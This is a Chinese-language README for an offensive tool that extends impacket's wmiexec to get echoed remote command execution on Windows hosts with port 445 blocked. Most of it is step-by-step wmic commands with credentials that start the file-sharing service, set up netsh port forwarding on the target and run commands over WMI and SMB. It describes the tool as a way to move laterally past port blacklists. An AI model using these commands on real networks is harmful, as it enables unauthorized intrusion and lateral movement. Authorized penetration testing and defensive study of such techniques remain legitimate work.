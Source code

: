 # WMIEXEC-NO445

impacket的wmiexec在没有打开445端口的情况下，进行有回显的命令执行工具。

## 安装方法

在安装好impacket的情况下，直接使用wmiexec-no445.py替换wmiexec.py就行。

## 原理介绍

此方法是通过wmi的silentcommand模式来直接通过135和高端口进行命令执行，后通过目标机器的netsh将高端口的流量转发到445，从而达到绕过445端口进行有回显的命令执行。因此此方法相比于wmi的silentcommand模式命令执行没有增加任何限制条件，只要能进行命令执行就能有回显。并且因为是通过smb来进行回显，因此也没有回显的长度限制。

## Windows手动回显命令执行

### 一、先打开文件共享服务

> wmic /node:172.16.178.9 /user:windows8 /password:* service where name="LanmanServer" call startservice

### 二、进行端口转发(将445端口转发到44500端口)

> wmic /node:172.16.178.9 /user:windows8 /password:* process call create "cmd.exe /c netsh interface portproxy add v4tov4 listenport=44500 listenaddress=0.0.0.0 connectport=445 connectaddress=127.0.0.1"

### 三、通过原始的impacket进行命令执行

在执行之前需要修改nmb.py中的SMB_SESSION_PORT值为更改的端口

> python3 wmiexec.py windows.local/windows8:*@172.16.178.9 "whoami"

## 工具使用方法

* 工具使用的前提是目标机器设置的端口黑名单，有打开135端口和10000以上的高端口，就能通过此工具进行横行移动了。

在目标没有打开445的情况下执行回显命令（默认445的转发端口为44500）：

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 "ipconfig" -no445

在指定50000为445的转发端口下执行回显命令：

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 "ipconfig" -no445 -proxyport 50000

清除目标机器中的端口转发设置（默认清除44500）

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 -clearport

清除目标机器中的特定转发端口

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 -portclear -proxyport 50000

## 使用实例

![image-20220209111347219](./example.png)

